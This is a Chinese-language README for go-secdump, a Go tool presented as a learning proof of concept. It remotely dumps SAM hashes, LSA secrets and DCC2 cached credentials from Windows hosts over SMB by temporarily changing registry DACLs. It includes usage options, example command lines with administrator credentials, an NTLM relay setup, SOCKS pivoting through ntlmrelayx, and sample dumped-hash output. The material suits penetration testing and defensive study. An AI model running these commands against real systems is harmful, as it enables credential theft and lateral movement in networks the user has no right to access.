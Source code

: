 # go-secdump



## 描述



包 go-secdump 是一个工具，用于远程从 SAM 注册表配置单元提取哈希值以及从 SECURITY 配置单元提取 LSA 机密和缓存哈希值，无需任何远程代理，也无需接触磁盘。

[该工具建立在库go-smb](https://github.com/jfjallid/go-smb)之上 ，并使用它来与 Windows 远程注册表通信，以直接从内存中检索注册表项。

它作为一种学习体验和概念证明而建立，即应该可以从 SAM 配置单元和 LSA 机密以及域缓存凭据中远程检索 NT 哈希，而不必先将注册表配置单元保存到磁盘然后在本地解析它们。

要克服的主要问题是 SAM 和 SECURITY 配置单元只能由 NT AUTHORITY\SYSTEM 读取。但是，我注意到本地组管理员对注册表配置单元具有 WriteDACL 权限，因此可以用来临时授予自身读取权限以检索机密，然后恢复原始权限。

## 致谢



该项目中的大部分代码都是受到 Impacket 的 secdump 启发/借鉴的，但转换为远程访问 Windows 注册表并仅访问所需的注册表项。

下面列出了一些有助于理解注册表结构和加密方法的其他来源：

https://www.passcape.com/index.php?section=docsys&cmd=details&id=23

http://www.beginningtoseethelight.org/ntsecurity/index.htm

https://social.technet.microsoft.com/Forums/en-US/6e3c4486-f3a1-4d4e-9f5c-bdacdb245cfd/how-are-ntlm-hashes-stored-under-the-v-key-in-the-sam?forum=win10itprogeneral

## 用法



```
Usage: ./go-secdump [options]

options:
      --host <target>       Hostname or ip address of remote server
  -P, --port <port>         SMB Port (default 445)
  -d, --domain <domain>     Domain name to use for login
  -u, --user <username>     Username
  -p, --pass <pass>         Password
  -n, --no-pass             Disable password prompt and send no credentials
      --hash <NT Hash>      Hex encoded NT Hash for user password
      --local               Authenticate as a local user instead of domain user
      --dump                Saves the SAM and SECURITY hives to disk and
                            transfers them to the local machine.
      --sam                 Extract secrets from the SAM hive explicitly. Only other explicit targets are included.
      --lsa                 Extract LSA secrets explicitly. Only other explicit targets are included.
      --dcc2                Extract DCC2 caches explicitly. Only ohter explicit targets are included.
      --backup-dacl         Save original DACLs to disk before modification
      --restore-dacl        Restore DACLs using disk backup. Could be useful if automated restore fails.
      --backup-file         Filename for DACL backup (default dacl.backup)
      --relay               Start an SMB listener that will relay incoming
                            NTLM authentications to the remote server and
                            use that connection. NOTE that this forces SMB 2.1
                            without encryption.
      --relay-port <port>   Listening port for relay (default 445)
      --socks-host <target> Establish connection via a SOCKS5 proxy server
      --socks-port <port>   SOCKS5 proxy port (default 1080)
  -t, --timeout             Dial timeout in seconds (default 5)
      --noenc               Disable smb encryption
      --smb2                Force smb 2.1
      --debug               Enable debug logging
      --verbose             Enable verbose logging
  -o, --output              Filename for writing results (default is stdout). Will append to file if it exists.
  -v, --version             Show version
```



## 更改 DACL



go-secdump 将自动尝试修改然后恢复所需注册表项的 DACL。但是，如果在恢复过程中出现问题（例如网络断开连接或其他中断），则远程注册表将保留修改后的 DACL。

使用该`--backup-dacl`参数可以存储修改前的原始 DACL 的序列化副本。如果发生连接问题，可以使用该`--restore-dacl`参数从文件中恢复 DACL。

## 例子



转储所有注册表机密

```
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local
or
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam --lsa --dcc2
```



仅转储 SAM、LSA 或 DCC2 缓存机密

```
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --lsa
./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --dcc2
```



### NTLM 中继



使用 NTLM 中继转储注册表机密

启动监听器

```
./go-secdump --host 192.168.0.100 -n --relay
```



以某种方式从具有 192.168.0.100 管理权限的客户端触发对您的机器的身份验证，然后等待转储的机密。

```
YYYY/MM/DD HH:MM:SS smb [Notice] Client connected from 192.168.0.30:49805
YYYY/MM/DD HH:MM:SS smb [Notice] Client (192.168.0.30:49805) successfully authenticated as (domain.local\Administrator) against (192.168.0.100:445)!
Net-NTLMv2 Hash: Administrator::domain.local:34f4533b697afc39:b4dcafebabedd12deadbeeffef1cea36:010100000deadbeef59d13adc22dda0
2023/12/13 14:47:28 [Notice] [+] Signing is NOT required
2023/12/13 14:47:28 [Notice] [+] Login successful as domain.local\Administrator
[*] Dumping local SAM hashes
Name: Administrator
RID: 500
NT: 2727D7906A776A77B34D0430EAACD2C5

Name: Guest
RID: 501
NT: <empty>

Name: DefaultAccount
RID: 503
NT: <empty>

Name: WDAGUtilityAccount
RID: 504
NT: <empty>

[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC: 0x15deadbeef645e75b38a50a52bdb67b4
$MACHINE.ACC:plain_password_hex:47331e26f48208a7807cafeababe267261f79fdc38c740b3bdeadbeef7277d696bcafebabea62bb5247ac63be764401adeadbeef4563cafebabe43692deadbeef03f...
[*] DPAPI_SYSTEM
dpapi_machinekey: 0x8afa12897d53deadbeefbd82593f6df04de9c100
dpapi_userkey: 0x706e1cdea9a8a58cafebabe4a34e23bc5efa8939
[*] NL$KM
NL$KM: 0x53aa4b3d0deadbeef42f01ef138c6a74
[*] Dumping cached domain credentials (domain/username:hash)
DOMAIN.LOCAL/Administrator:$DCC2$10240#Administrator#97070d085deadbeef22cafebabedd1ab
...
```



### SOCKS代理



使用上游 SOCKS5 代理转储机密，以进行枢转或利用 Impacket 的 ntlmrelayx.py SOCKS 服务器功能。

当使用 ntlmrelayx.py 作为上行代理时，提供的用户名必须与经过身份验证的客户端匹配，但密码可以为空。

```
./ntlmrelayx.py -socks -t 192.168.0.100 -smb2support --no-http-server --no-wcf-server --no-raw-server
...

./go-secdump --host 192.168.0.100 --user Administrator -n --socks-host 127.0.0.1 --socks-port 1080
```